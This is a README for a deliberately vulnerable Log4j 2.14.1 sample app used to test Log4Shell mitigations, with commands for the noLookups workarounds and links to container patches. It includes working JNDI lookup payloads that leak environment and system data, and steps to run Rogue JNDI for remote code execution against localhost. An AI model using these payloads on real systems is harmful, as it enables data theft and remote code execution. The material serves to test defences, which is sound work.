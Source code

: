 # Log4Shell Mitigation tester

This is an example application using Log4j 2.14.1 .

source code: [App.java](app/src/main/java/log4shell/mitigation/tester/App.java)

The purpose of this is to be able to test different mitigation approaches. The mitigation approaches are also mentioned in [Microsoft’s Response to CVE-2021-44228 Apache Log4j 2](https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/).

## Example usage

Examples are for a bash shell


build the app
```
./gradlew assemble
```

Run without workaround
```
java -jar app/build/libs/app-all.jar
```

Test some message lookup feature by passing a string on command line:
```
FOO='Hello ${env:USER}' java -jar app/build/libs/app-all.jar '${env:FOO}'
```

Test `-Dlog4j2.formatMsgNoLookups=true` system property workaround, https://twitter.com/brunoborges/status/1469186875608875011
```
java -Dlog4j2.formatMsgNoLookups=true -jar app/build/libs/app-all.jar
```

Test ``LOG4J_FORMAT_MSG_NO_LOOKUPS=true`` environment variable workaround, https://twitter.com/brunoborges/status/1469462412679991300
```
LOG4J_FORMAT_MSG_NO_LOOKUPS=true java -jar app/build/libs/app-all.jar
```

Test `JAVA_TOOL_OPTIONS=-Dlog4j.formatMsgNoLookups=true` environment variable workaround, https://twitter.com/brunoborges/status/1469426918550245377
```
JAVA_TOOL_OPTIONS=-Dlog4j.formatMsgNoLookups=true java -jar app/build/libs/app-all.jar
```

Test log4j2.component.properties in classpath workaround solution:
```
java -cp log4j2-formatMsgNoLookups/build/libs/log4j2-formatMsgNoLookups.jar:app/build/libs/app-all.jar log4shell.mitigation.tester.App
```

## Seeing is believing - exploit this sample app

When you run the app, you will see the vulnerability in action:
```bash
❯ java -jar app/build/libs/app-all.jar '${jndi:ldap://127.0.0.1/a?user=${env:USER}}'
[2021-12-12 10:57:07,216] [main] [log4shell.mitigation.tester.App] INFO noLookups false
[2021-12-12 10:57:07,218] [main] [log4shell.mitigation.tester.App] INFO Lookups are enabled! The application is vulnerable for Log4Shell! Example lookup USER=lari
2021-12-12 10:57:07,239 main WARN Error looking up JNDI resource [ldap://127.0.0.1/a?user=lari]. javax.naming.InvalidNameException: ldap://127.0.0.1/a?user=lari
	at java.naming/com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:92)
	at java.naming/javax.naming.InitialContext.lookup(InitialContext.java:409)
```

You can also debug the solution and place a break point in the vulnerable code which is 
https://github.com/apache/logging-log4j2/blob/dd18e9b21009055e226daf5b233c92b6a17934ca/log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/MessagePatternConverter.java#L119-L135

Set the debugger in class is `org.apache.logging.log4j.core.pattern.MessagePatternConverter` at line 128.

When the mitigation is in place, the debugger should never get in the code block. The LDAP call shouldn't get attempted either:

```bash
❯ LOG4J_FORMAT_MSG_NO_LOOKUPS=true java -jar app/build/libs/app-all.jar '${jndi:ldap://127.0.0.1/a?user=${env:USER}}'
[2021-12-12 10:59:15,589] [main] [log4shell.mitigation.tester.App] INFO noLookups true
[2021-12-12 10:59:15,590] [main] [log4shell.mitigation.tester.App] INFO Lookups are disabled. Example lookup USER=${env:USER}
[2021-12-12 10:59:15,591] [main] [log4shell.mitigation.tester.App] INFO Provided command line arguments are [${jndi:ldap://127.0.0.1/a?user=${env:USER}}]
```

### Exploiting with Rogue JNDI

Demonstrating information leakage depends on https://github.com/veracode-research/rogue-jndi/pull/11 changes

in one terminal
```
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
# build with PR https://github.com/veracode-research/rogue-jndi/pull/11 changes
git fetch origin pull/11/head
git checkout FETCH_HEAD
mvn package
# sample command is for Linux, remove `-c "zenity --progress --pulsate --text=You_are_hacked"` on other OSes or use any suitable RCE command
java -jar target/RogueJndi-1.1.jar -c "zenity --progress --pulsate --text=You_are_hacked"
```

in another terminal:
```
# demonstrate information leakage
java -jar app/build/libs/app-all.jar '${jndi:ldap://127.0.1.1:1389/user=${env:USER},vendor=${sys:java.vendor},javaversion=${sys:java.vm.version},os=${sys:os.version}}'
# demonstrate RCE by adding "-Dcom.sun.jndi.ldap.object.trustURLCodebase=true"
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar app/build/libs/app-all.jar '${jndi:ldap://127.0.1.1:1389/o=reference}'
```


## Kubernetes / docker mitigation solutions for Log4Shell

It is necessary to mitigate Log4Shell immediately without waiting for a new software release. Here are some solutions for doing that quickly and effectively.

### Patching existing docker images with a thin overlay that sets LOG4J_FORMAT_MSG_NO_LOOKUPS=true env

This is a generic solution:
https://github.com/lhotari/Log4Shell-mitigation-Dockerfile-overlay

### Example of patching existing docker images with Log4j 2.15.0 jar files

This is not generic, example is from apache/pulsar:
https://github.com/lhotari/pulsar-docker-images-patch-CVE-2021-44228

### Patching k8s deployments with LOG4J_FORMAT_MSG_NO_LOOKUPS=true env

https://gist.github.com/brunoborges/9df576689b404aee70a8065210c77fb3


